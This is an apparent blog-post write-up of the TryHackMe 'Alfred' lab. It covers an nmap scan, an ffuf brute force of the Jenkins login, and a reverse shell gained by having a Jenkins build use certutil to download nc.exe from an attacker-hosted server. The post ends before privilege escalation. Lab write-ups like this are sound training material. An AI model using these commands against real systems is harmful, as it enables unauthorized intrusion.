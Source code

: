 ```yaml
---
layout: post
description: Exploit Jenkins to gain an initial shell, then escalate your privileges by exploiting Windows authentication tokens.
title: Tryhackme Alfred CTF Writeup
date: 2021-12-28 11:40
image: '/assets/img/posts/tryhackme-alfred-ctf-writeup/alfredbanner.png'
tags: [TryHackme-Machines]
featured: false
---
```



# Enumeration

Run Network Mapper (**nmap**) on Alfred machine to discover opened ports and services.   

Full command : 
{% highlight bash %}
nmap -sV -sS -O -T4 -p- {machine IP} -Pn -oN {outputfile}
{% endhighlight %}

| Parameter              | Functionality                                          | 
|:-----------------------|:-------------------------------------------------------|
|-sV                     | Probe open ports to determine service/version info     |
|-sS                     | SYN, half TCP scan                                     |
|-O                      | Enable OS detection                                    |
|-T4                     | T{0-5} Set scan speed, higher is faster                |
|-p-                     | Scan all 65536 ports                                   |
|-Pn                     | Skip host discovery                                    |
|-oN                     | Write output to a file                                 |

Output of the scan:
{% highlight bash %}
# Nmap 7.92 scan initiated Tue Dec 28 09:22:17 2021 as: nmap -sV -sS -O -T4 -p- -Pn -oN alfred.nmap 10.10.195.99
Nmap scan report for 10.10.195.99
Host is up (0.030s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE    VERSION
80/tcp   open  http       Microsoft IIS httpd 7.5
3389/tcp open  tcpwrapped
8080/tcp open  http       Jetty 9.4.z-SNAPSHOT
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2008 R2 SP1 (90%), Microsoft Windows Server 2008 (90%), Microsoft Windows Server 2008 R2 (90%), Microsoft Windows Server 2008 R2 or Windows 8 (90%), Microsoft Windows 7 SP1 (90%), Microsoft Windows 8.1 Update 1 (90%), Microsoft Windows 8.1 R1 (90%), Microsoft Windows Phone 7.5 or 8.0 (90%), Microsoft Windows 7 or Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 or 2008 Beta 3 (89%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Dec 28 09:24:13 2021 -- 1 IP address (1 host up) scanned in 115.63 seconds
{% endhighlight %}

Three ports are opened:
## Port 80 http Microsoft IIS httpd 7.5
Ordinary [**Microsoft IIS**](https://en.wikipedia.org/wiki/Internet_Information_Services) web server.
<br>Nothing fancy here.
![](/assets/img/posts/tryhackme-alfred-ctf-writeup/2.png)

## Port 3389 tcpwrapped
**tcpwrapped** means that the remote host closed the connection after completing the TCP three-way handshake without receiving any data.
<br>[**More information here**.](https://secwiki.org/w/FAQ_tcpwrapped)

## Port 8080 Jetty 9.4.z-SNAPSHOT

There is a [**Jenkins**](https://www.geeksforgeeks.org/what-is-jenkins/) login prompt on port 8080.
<br>![](/assets/img/posts/tryhackme-alfred-ctf-writeup/3.png)<br>
If you google it, you will see the default login credentials for Jenkins is **admin** for the username and **admin** for the password.
However, the system administrator could have changed the password to a different one. In that case default credentials
would be useless. So we will brute force the credentials for best practice.<br>

# Exploitation

In order to create a continuous HTTP request, we have to know how the HTTP request looks.
Launch the [**Burp Suite**](https://www.geeksforgeeks.org/what-is-burp-suite/) to examine the HTTP POST request sent 
when a login attempt occurs.
![](/assets/img/posts/tryhackme-alfred-ctf-writeup/4.png)_Request_<br><br>
There are three fields we have to make sure they are being sent with the HTTP request we will forge for this form.
1. [**application/x-www-form-urlencoded**](https://www.w3.org/TR/html401/interact/forms.html#h-17.13.4) : Encoding type
2. **j_username** : Username field
3. **j_password** : Password Field

I will use [**ffuf**](https://cybersecnerds.com/ffuf-everything-you-need-to-know/) to create POST requests toward the web server.
You can use any fuzzer tool like **THC Hydra**, **Burp Suite** or others. 
<br>Download [**SecLists**](https://github.com/danielmiessler/SecLists) repo with prepeared wordlists included.

| Parameter              | Functionality                                          | 
|:-----------------------|:-------------------------------------------------------|
|-w                      | Dedicated wordlists                                    |
|-u                      | Target URL                                             |
|-data                   | Data which will be sent with the request               |
|-H                      | HTTP headers that will be sent with the request        |
|-fr                     | Regex which will be filtered out                       |


Full command:
{% highlight bash %}
ffuf -w SecLists/Usernames/top-usernames-shortlist.txt:W1,SecLists/Passwords/Common-Credentials/best1050.txt:W2 -u "http://10.10.56.186:8080/j_acegi_security_check" -data "j_username=W1&j_password=W2" -H "Content-Type: application/x-www-form-urlencoded" -fr "loginError"
{% endhighlight %}

![](/assets/img/posts/tryhackme-alfred-ctf-writeup/6.png)__Cracked the credentials, well done :)__<br><br>
A possible question would be, why filter out "loginError" string ? 
![](/assets/img/posts/tryhackme-alfred-ctf-writeup/5.png)_Left: Request - Right:Response_<br><br>
That sent request got a response with [**HTTP 302 status code**](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/302), which is the status code for redirection.
It means whenever the application receives invalid credentials from the client; the server redirects the client to the "/loginError" URL.
Based on this, as long as the HTTP response does not include "/loginError" in it, it is safe to say we have sent a valid username-password pair
to the server.
<br><br>
![](/assets/img/posts/tryhackme-alfred-ctf-writeup/7.png)__Login to the Jenkins panel via credentials.__

It is possible to do anything that Jenkins can do since we have an admin portal right now.However, if we could get a shell from the
system, it would be amazing.<br><br>
The way to get a shell from the system is to make Jenkins transmit and execute code in the system shell.<br>
Click on the first project named as **project**, then click **configure**.
Scroll down to the bottom, and you will see a box that executes the windows command written in it.
![](/assets/img/posts/tryhackme-alfred-ctf-writeup/9.png)<br>
On the project page, there is a **Build History** section. It is available to check the output of the batch command that had run.
![](/assets/img/posts/tryhackme-alfred-ctf-writeup/8.png)
Now, instead of printing the string value of the user who executes it with the **whoami** command, we have to connect to that shell.

<br>I will use [**Netcat**](https://www.ionos.com/digitalguide/server/tools/netcat/) in this manner. It is required to have Netcat downloaded in both the attacker and the
victim machine.
- Download static [**nc.exe**](https://github.com/andrew-d/static-binaries/blob/0be803093b7d4b627b4d4eddd732e54ac4184b67/binaries/windows/x86/ncat.exe) binary for to run it in the victim machine 
- Start a Python3 server in the directory that includes the Netcat static binary file.
<br>Run:
{% highlight shell%}
sudo python3 -m http.server 80
{% endhighlight %}
![](/assets/img/posts/tryhackme-alfred-ctf-writeup/10.png)
- Start a Netcat listener in the attacker machine.
<br>Run:
{% highlight shell%}
nc -nvlp {ANY FREE PORT}
{% endhighlight %}
![](/assets/img/posts/tryhackme-alfred-ctf-writeup/11.png)
- Download the static binary to the victim machine from the Python web server and run it.
{% highlight powershell%}
certutil.exe -urlcache -split -f http://{THM IP}:80/nc.exe
{% endhighlight %}
![](/assets/img/posts/tryhackme-alfred-ctf-writeup/12.png)
- Click **Build** button on the project page.
![](/assets/img/posts/tryhackme-alfred-ctf-writeup/13.png)

A get request was made to the web server.
![](/assets/img/posts/tryhackme-alfred-ctf-writeup/14.png)
Then we got the shell.
![](/assets/img/posts/tryhackme-alfred-ctf-writeup/15.png)__We are in, nice progress ;)__
To get user flag, run:
{% highlight powershell %}
type "C:\Users\Bruce\Desktop\user.txt"
{% endhighlight%}

# Privilege Escelation
To be continued...
